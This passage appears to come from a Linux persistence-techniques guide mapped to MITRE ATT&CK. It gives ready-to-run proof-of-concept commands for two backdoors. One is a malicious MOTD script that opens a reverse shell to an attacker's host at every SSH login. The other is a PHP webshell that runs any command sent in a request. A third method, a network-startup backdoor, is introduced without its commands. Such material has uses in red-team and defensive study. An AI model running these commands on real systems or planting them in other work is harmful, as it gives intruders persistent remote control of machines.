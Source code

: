 When you use SSH to log into a machine, a banner called Motd (Message of the Day) shows. Motd scripts for Ubuntu/Debian may be found in /etc/update-motd.d/. 

As for the PoC, we created a MOTD banner named 20-motd-bas that will make a reverse shell to the adversary C2 server whenever any user login via SSH.

Required: root privilege

	$ Command:
	
	root@victim$ MOTDNAME='20-motd-bas'
	root@victim$ cat << EOF > /etc/update-motd.d/$MOTDNAME
	#!/bin/sh
	# Creating SSH motd banner
	/bin/bash -c "bash -i >& /dev/tcp/$ATTACKERIP/7777 0>&1" &
	EOF
	root@victim$ chmod +x /etc/update-motd.d/$MOTDNAME

How does it work? At each login, pam motd(8) as the root user invokes executable scripts in /etc/update-motd.d/*, and this information is concatenated in /var/run/motd. The run-parts(8) –lsbsysinit option controls the order in which scripts are executed (essentially alphabetical order, with a few exceptions) [1]. 

## Creating Webshell as backdoor

[MITRE ID: T1505.003](https://attack.mitre.org/techniques/T1505/003/)

Adversary commonly placed a webshell for later access. A simple PoC is shown below.

Required: root or web server privilege

	$ Command:
	victim@server$ WEBSHELL='bdoor.php'
	victim@server$ PATH2WEBSHELL=/var/www/html/secretfolder/$WEBSHELL

	victim@server$ cat << EOF > $PATH2WEBSHELL
	# Creating webshell 
	<?php
	    if (isset($_REQUEST['cmd'])) {
	        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	    }
	?>
	EOF

## Creating Network startup as backdoor

There are four directories in which scripts can be placed which will always be run for any interface during certain phases of ifup and ifdown commands. One of them is `/etc/network/if-up.d/`. Scripts in this directory are run after bringing the interface up [2].

Required: root privilege
